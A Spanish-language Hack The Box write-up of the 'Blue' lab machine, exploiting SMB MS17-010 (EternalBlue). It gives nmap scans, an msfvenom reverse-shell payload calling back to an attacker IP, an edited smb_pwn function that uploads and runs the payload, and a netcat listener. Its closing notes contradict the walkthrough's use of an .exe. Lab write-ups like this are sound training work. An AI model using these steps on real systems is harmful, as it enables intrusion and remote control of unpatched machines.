 ```yaml
---
title: Writeup blue - Hack The Box - Resolución y Análisis
published: true
tags:
  - hackthebox
  - writeup
  - blue
  - ciberseguridad
  - pentesting
description: Writeup y resolución de la máquina blue en Hack The Box.
keywords:
  - writeup blue
  - hack the box blue
  - resolución máquina blue
  - blue hack the box
  - htb blue
---
```

--------
### 🔗 Accesos rápidos

- 📄 **Writeup online**: [Link](https://publish.obsidian.md/bunzopy/HTB/Facil/Windows/Blue)
- 📺 **Resolución en vivo (completa)**: [Parte1](https://www.youtube.com/watch?v=_rycwPBeG7Q)|[Parte2](https://www.youtube.com/watch?v=6rzA9KYjFmI)|[Parte3](https://www.youtube.com/watch?v=8g8bSn6Bi7E)
- 🧠 **Explicación resumida**: 

---

#easy #windows #nmap #ping #python27 #nmapscripts #cd #gitclone #nc-nlvp443 #reverseshell #msfvenom #nvim #type

---------
# Guided Mode

1)¿Cuántos puertos TCP abiertos escucha Blue? No incluya ningún puerto de 5 dígitos.
	3
	
2)¿Cuál es el nombre de host de Blue?
	haris-pc

3)¿Qué sistema operativo se está ejecutando en la máquina de destino? Dé una respuesta de dos palabras con un nombre y una versión de alto nivel.
	windows 7

4)¿Cuántas acciones SMB están disponibles en Blue?
	5

5)Qué número de boletín de seguridad de Microsoft de 2017 describe una vulnerabilidad de ejecución remota de código en SMB?
	MS17-010

6)En mayo de 2017 se soltó en Internet un gusano que se propagaba principalmente a través de MS17-010. Cuál es el famoso nombre de ese malware?
	WannaCry

7)¿Con qué usuario se ejecuta el exploit MS17-010? Incluya el nombre completo, incluyendo cualquier cosa antes de un .
	nt authority\system


-------
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.10.10.40
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.40 -oG allPorts
extractPorts allPorts
nmap -sCV -p135,139,445,49152,49153,49154,49155,49156,49157 10.10.10.40 -oN target
```

![[Blue1.png]]
![[Blue2.png]]
![[Blue3.png]]
![[Blue4.png]]
*TTL:* Maquina windows
*Puertos:*
`445`[[smb]]
*Otra informacion relevante:*
Para smb nos podemos conectar con el usuario guest, con permisos de user
Usuario:Harris
Computadora windows 7

--------
# Escaneo de [[NMAP Scripts]] [[smb]]

Como vemos que esta corriendo un [[smb]] vamos a ejecutar los [[NMAP Scripts]] que analizan vulnerabilidades sobre [[smb]]
```
nmap --script "smb-vuln*" -p445 10.10.10.40 -oN smbScan
```

![[Blue9.png]]
Como podemos ver, es vulnerable al [[CVE-2017-0143]]

-----
# Explotando [[CVE-2017-0143]]

Con [[git clone]] vamos a descargar el repositorio `git clone https://github.com/worawit/MS17-010`
Usando [[cd]] con el comando `cd MS17-010` entramos a carpeta del repositorio, listamos el contenido con [[ls]]
Y de todos estos archivos, vamos a usar solamente el *checker.py* y *zzz_exploit.py*

![[Blue10.png]]
Usando [[nvim]] abrimos el archivo *checker.py* usando el comando `nvim checker.py`

Vamos a poner de usuario *guest* que es lo que vimos vulnerable en uno de los escaneos de NMAP
![[Blue5.png]]

Y ahora con `python2-7 checker.py 10.10.10.40` Vemos que podemos usar los pipes 
![[Blue6.png]]
El pipe que nos interesa es el *lsarpc* por que es el mas completo, ya que nos deja ver usuarios, grupos, permisos ,etc


### Ya tenemos el canal de comunicacion elegido, que seria el pipe. Ahora vamos a hacer el archivo malioso que vamos a inyectar con [[msfvenom]]

```
msfvenom -p windows/shell_reverse_tcp lhost=10.10.16.5 lport=443 -f exe -o exploit.exe --platform windows
```

![[Blue11.png]]
Tenemos creado el archivo exploit.exe para inyectar y que nos envie la [[Reverse shell]]

### Tenemos que modificar el archivo *zzz_exploit.py*
Lo abrimos nuevamente con [[nvim]] usando el comando `nvim zzz_exploit.py`
![[Blue13.png]]
En username van a poner *guest* como hicimos anteriormente.

Y ahora van a ir a la siguiente linea, pueden buscar la funcion *smb_pwn* para encontrarla

Lo vamos a poner de la siguiente manera, como esta en la foto, tengan encuenta que les puede saltar un error por los espacios y tabulacion, asi que recomiendo que sigan mi formato. Y solamente cambien la ruta donde tienen el archivo y en todo caso el nombre del mismo
![[Blue14.png]]

```python
def smb_pwn(conn, arch):
    smbConn = conn.get_smbconnection()

    #print('creating file c:\\pwned.txt on the target')
    #tid2 = smbConn.connectTree('C$')
    #fid2 = smbConn.createFile(tid2, '/pwned.txt')
    #smbConn.closeFile(tid2, fid2)
    #smbConn.disconnectTree(tid2)
    smb_send_file(smbConn, '/home/bunzo/Desktop/Blue/content/MS17-010/exploit.exe', 'C', '/exploit.exe')
    service_exec(conn, r'cmd /c c:\\exploit.exe')
    #smb_send_file(smbConn, sys.argv[0], 'C', '/exploit.py')
    #service_exec(conn, r'cmd /c copy c:\pwned.txt c:\pwned_exec.txt')
    # Note: there are many methods to get shell over SMB admin session
    # a simple method to get shell (but easily to be detected by AV) is
    # executing binary generated by "msfvenom -f exe-service ..."
```


 Ahora solo nos falta ponernos en escucha con [[nc -nlvp 443]] y ejecutar el exploit con `python2.7 zzz_exploit.py 10.10.10.40 lsarpc`

![[Blue15.png]]

![[Blue12.png]]

Ya estamos dentro de la maquina, ahora solo falta catear las flags con [[type]]

![[Blue7.png]]
![[Blue8.png]]

----------
# Notas

El exploit espera un archivo **binario puro** porque solo necesita el código que se va a ejecutar directamente en memoria, sin ningún extra.
Un `.exe` tiene toda la estructura de un programa (encabezados, secciones, etc.) que no sirve para inyección directa; el exploit no puede procesar ni entender ese formato completo.
Además, el `.exe` es para cuando querés que un usuario lo ejecute manualmente, no para inyectarlo directamente en memoria como hace el exploit. Por eso, para exploits se usa el `.bin` con solo el shellcode.

#### Puede ser que tengas error con impacket y python 2.7 al ejecutarlo. Yo lo que hice fue esto para poder ejecutar los scripts. Que es basicamente descargar y instalar el python con nuevas configuraciones
```shell
cd /usr/src
sudo wget https://www.python.org/ftp/python/2.7.18/Python-2.7.18.tgz
sudo tar xzf Python-2.7.18.tgz
cd Python-2.7.18
sudo ./configure --enable-optimizations
sudo make altinstall

pip2 install impacket==0.9.24
```

------------
# Creditos
Writeup Oficial HackTheBox
Y muchos otros Writeups y videos que no tengo los links, por que me aparecia error por todos lados